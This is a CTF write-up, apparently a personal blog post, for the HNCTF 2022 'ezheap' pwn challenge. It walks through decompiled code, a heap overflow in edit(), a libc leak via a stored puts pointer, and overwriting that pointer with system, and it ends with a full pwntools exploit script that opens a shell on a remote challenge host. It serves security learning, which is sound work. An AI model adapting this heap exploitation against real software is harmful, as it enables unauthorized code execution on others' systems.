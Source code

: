 ```yaml
---
title: '[HNCTF 2022 WEEK4]ezheap'
date: 2024-04-28 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,off_by_one,heapoverflow,leak_libc]
---
```

 [[HNCTF 2022 WEEK4](https://www.nssctf.cn/problem/3104)]ezheap

```shell
[*] '/home/bamuwe/ezheap/ezheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $checksec ./ezheap

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> 运行截图

```c
int add()
{
  __int64 v0; // rbx
  __int64 v1; // rax
  int v3; // [rsp+0h] [rbp-20h]
  signed int v4; // [rsp+4h] [rbp-1Ch]

  puts("Input your idx:");
  v3 = getnum();
  puts("Size:");
  v4 = getnum();
  if ( v4 > 0x100 )
  {
    LODWORD(v1) = puts("Invalid!");
  }
  else
  {
    heaplist[v3] = malloc(0x20uLL);
    if ( !heaplist[v3] )
    {
      puts("Malloc Error!");
      exit(1);
    }
    v0 = heaplist[v3];
    *(v0 + 16) = malloc(v4);
    *(heaplist[v3] + 32LL) = &puts;             // 预存的puts()地址，考虑泄露/更改
    if ( !*(heaplist[v3] + 16LL) )
    {
      puts("Malloc Error!");
      exit(1);
    }
    sizelist[v3] = v4;
    puts("Name: ");
    if ( !read(0, heaplist[v3], 0x10uLL) )	//限制name堆块只能输入0x10
    {
      puts("Something error!");
      exit(1);
    }
    puts("Content:");
    if ( !read(0, *(heaplist[v3] + 16LL), sizelist[v3]) )
    {
      puts("Error!");
      exit(1);
    }
    puts("Done!");
    v1 = heaplist[v3];
    *(v1 + 24) = 1;
  }
  return v1;
}
```

> 漏洞函数1_add()

```c
__int64 show()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && heaplist[v1] )
  {
    (*(heaplist[v1] + 32LL))(heaplist[v1]);		//通过调用堆上预存的puts()地址实现输出打印
    return (*(heaplist[v1] + 32LL))(*(heaplist[v1] + 16LL));
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
}
```

> 漏洞函数2_show()

```c
ssize_t edit()
{
  unsigned int v1; // [rsp+8h] [rbp-8h]
  unsigned int nbytes; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  puts("Size:");
  nbytes = getnum();
  if ( v1 <= 0x10 && heaplist[v1] && nbytes <= 0x100 )	// 只做了<=0x100的限制，可以溢出
    return read(0, *(heaplist[v1] + 16LL), nbytes);
  puts("Error idx!");
  return 0LL;
}
```

> 漏洞函数3_edit()

```python
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)
```

> 交互函数

程序逻辑：

1. `add()`时会添加两个`chunk`，`chunk1`存贮`name`，正文`chunk`和`puts()`的地址，即`0x0a27656d616e2762(name)`，`0x0000561b7af6c040`，`0x00007f483b7215d0(puts_addr)`另`chunk2`存贮`text`

   ![image-20240428142620769](../assets/img/old_imgs/image-20240428142620769.png)

2. `show()`会调用`chunk1`中预存的`puts()`构造`puts(chunk2_addr)`实现打印输出

   ![image-20240428143340351](../assets/img/old_imgs/image-20240428143340351.png)

利用思路：

1. `edit()`宽松的输入检测，可以更改堆块大小，构造`fake_chunk`

   ```python
   add(0,0x18,b'0'*0x10,b'0000')
   add(1,0x10,'1111',b'1111')
   add(2,0x10,'2222',b'2222')
   
   edit(0,0x20,b'A'*0x18+p8(0x81))
   show(0)
   free(1)
   ```

   ![image-20240428144611332](../assets/img/old_imgs/image-20240428144611332.png)

   > 成功构造出fake_chunk

2. 可以构造堆溢出，溢出`\x00`截断，填充并泄露`puts()`的地址

   ```python
   add(4,0x70,'4444',b'4'*(0x20-1)+b'-')			#申请回fake_chunk，填充堆空间，添加标志位
   show(4)											#查看堆上内容
   io.recvuntil(b'-')
   puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
   # lib = LibcSearcher('puts',puts_addr)			#remote
   lib_base = puts_addr-lib.sym['puts']
   sys_addr = lib_base+lib.sym['system']
   # lib_base = puts_addr-lib.dump('puts')
   # sys_addr = lib_base+lib.dump('system')
   success('&system=>{}'.format(hex(sys_addr)))
   success('&puts=>{}'.format(hex(puts_addr)))
   ```

   ![image-20240428151019745](../assets/img/old_imgs/image-20240428151019745.png)

3. 通过`edit()`修改，利用堆溢出修改其他`chunk`

   ```python
   edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
   ```

   ![image-20240428151224698](../assets/img/old_imgs/image-20240428151224698.png)

   > 修改后，可以与上面比较一下

4.利用`show()`得到`shell`

```python
show(2)
```

___

exp:

```python
#Ubuntu GLIBC 2.23-0ubuntu11.3

from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
elf = ELF('./ezheap')
# io = gdb.debug('./ezheap')
io = remote('node5.anna.nssctf.cn',26829)
# lib = ELF('/home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)

add(0,0x18,b'0'*0x10,b'0000')
add(1,0x10,'1111',b'1111')
add(2,0x10,'2222',b'2222')

edit(0,0x20,b'A'*0x18+p8(0x81))
show(0)
free(1)
add(4,0x70,'4444',b'4'*(0x20-1)+b'-')
show(4)
io.recvuntil(b'-')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib = LibcSearcher('puts',puts_addr)
lib_base = puts_addr-lib.dump('puts')
sys_addr = lib_base+lib.dump('system')
success('&system=>{}'.format(hex(sys_addr)))
success('&puts=>{}'.format(hex(puts_addr)))

edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
show(2)

io.interactive()
```



